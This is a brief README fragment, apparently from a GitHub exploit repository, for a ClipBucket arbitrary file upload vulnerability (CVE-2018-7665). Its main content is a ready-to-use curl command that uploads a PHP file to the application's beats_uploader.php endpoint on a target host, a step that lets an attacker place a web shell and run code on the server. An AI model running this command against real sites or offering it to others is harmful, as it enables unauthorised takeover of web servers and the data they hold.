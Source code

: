 # ClipBucket - Arbitrary File Upload (CVE-2018-7665) / Python Version 🐍❤ 
You can also exploit this vulnerability with Curl:
```bash
curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php" "http://$HOST/actions/beats_uploader.php"
```
